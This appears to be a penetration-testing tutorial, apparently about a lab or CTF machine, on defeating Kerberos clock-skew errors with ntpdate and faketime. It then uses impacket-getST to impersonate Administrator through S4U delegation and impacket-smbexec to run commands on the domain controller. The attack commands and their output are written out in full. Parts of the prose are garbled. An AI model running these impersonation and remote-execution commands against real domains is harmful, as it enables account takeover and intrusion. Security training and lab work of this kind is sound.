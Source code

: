 # By vishok kerberos
# error fized
####
####
####
## Bypassing Kerberos Time Verification
### Clock skew too great:
**Kerberos** is a network authentication protocol that uses encrypted tickets to verify identities in distributed systems. One of its fundamental security measures is **strict time synchronization** between clients and servers.
####
Occurs when there's a time difference greater than **5 minutes** (by default) between the local clock and the DC[*Domain Controller*]. This protection prevents replay attacks where an attacker might attempt to reuse old tickets. In compromised environments or during penetration testing, this mechanism can block valid TGT [*Ticket Granting Ticket*] acquisition, preventing access to resources.
####
####
####
## Solution using ntpdate
### Ntpdate:
The **ntpdate** command is a utility for setting and synchronizing the date and time of a computer system to match that of a reliable NTP [*Network Time Protocol*] server. By ensuring the system clock is accurate, ntpdate helps maintain system logs, schedule tasks, and ensure time-sensitive operations run effectively. Below are several use cases demonstrating how to effectively utilize the ntpdate command.
####
Synchronizing a computer internal clock is crucial in maintaining synchronization across clusters databases, and logging services. When systems operate on different times, anomalies may occu  to data corruption or erroneous log entries. Using sudo ntpdate host, an administrator can  computer clock adheres to a globally accepted time standard provided by a specific host stron or NTP server.
####
```ruby
sudo ntpdate coloso.local
```
####
Under certain conditions, it might be necessary to enforce an instantaneous time adjustment rather than gradual
syncing, for example avoiding time make use **slewed**, **settimeofday**.
####
```ruby
sudo -b ntpdate coloso.local
```
####
<div class="img">
    <img src="/machines/public/clockskew/1.png" loading="lazy" decoding="async" />
</div>

####
In many cases de the speed of the internet play a crucial role when you try to syncronize against a Domain Controller, in very useful to have so kwoledge in automation programing lenguajes.
####
<div class="tip">

> Is time to craft our custom script to send a **multiple** syncronizing attempt request.
</div>

####
```ruby
for x in $(seq 1 10); do sudo ntpdate coloso.local; done
```
####
####
####
## Solution using faketime
### Faketime:
The **faketime** tool intercepts system time-related calls, allowing applications to be *FOOLED* about the current time, we can use this to bypass the **Kerberos time verification** in **impacket** tools against a Windows System Operation that running over a Domain Controller.
####
First we obtain the exact time from the Domain Controller via SMB, since this protocol doesn't have the same time restrictions as Kerberos and then we use faketime with the obtained time to generate our TGT. This step generates a `.ccache` file with a valid Kerberos ticket, synchronized with the *DC* time.
####
```ruby
date
Get-Date
time /t
time
```
####
Once we obtain the time of the DC or Windows, we must to pass that time to **faketime**:
####
```ruby
date -> In DC or Windows

Result -> 
    "2025-04-19 21:24:36"

faketime "2025-04-19 21:24:36" -> In our machine
```
####
That command is very important that was executed in the same line or in the same command when you try to connect or get A *TGT* ticket: `faketime - impacket-getST`.
####
<div class="warning">

> Is very important that the **faketime** comand was added in the same line without use [*pipes*, *xargs*] etc.
</div>

####
So if we want to get a TGT, we must to execute the next command:
####
```ruby
faketime "2025-04-19 21:24:36" impacket-getST -spn 'cifs/coloso.local' -impersonate Administrator -dc-ip 10.10.11.174 'coloso/vishok$:vishok'

[+] Getting TGT for user
[+] Impersonating Administrator
[+]     Requesting S4U2self
[+]     Requesting S4U2proxy
[+] Saving ticket in Administrator.ccache
```
####
The `faketime "2025-04-19 21:24:36" impacket-getST` is in the same line, both are different comands. Furthermore, the second command will haven't a highlight color, but this is normal, don't worry, the second command will be executed.
####
####
####
## Technical Deep Dive: faketime mechanics
### Deep Dive:
**Faketime** works by intercepting system calls related to time through *LD_PRELOAD*, a Linux mechanism that loads libraries before others. The *LD_PRELOAD* variable allows to paths to libraries which are to be loaded before any other libraries are loaded. What’s important, the  symbols e.g. functions contained in the preloaded libraries take precedence over the symbols from libraries loaded afterwards.
####
When applications like **impacket-getST** make system calls to check the current time like `time()`, `gettimeofday()`, or `clock_gettime()`, these calls are redirected to libfaketime instead of the standard C library.
####
<div class="img">
    <img src="/machines/public/clockskew/2.png" loading="lazy" decoding="async" />
</div>

####
####
####
## Final configuration
### KRB5CCNAME:
To use the generated ticket, we export it as an environment variable this tells Impacket tools where to find our Kerberos credentials. Finally we execute the target command with the spoofed time:
####
```ruby
date -> In DC or Windows

Result -> 
    "2025-04-19 21:30:08"

KRB5CCNAME=Administrator.ccache faketime "2025-04-19 21:30:08" impacket-smbexec -dc-ip 10.10.11.174 -no-pass -k coloso/administrator@coloso.local
```
####
How you can see, in all moment is necessary use the **faketime**.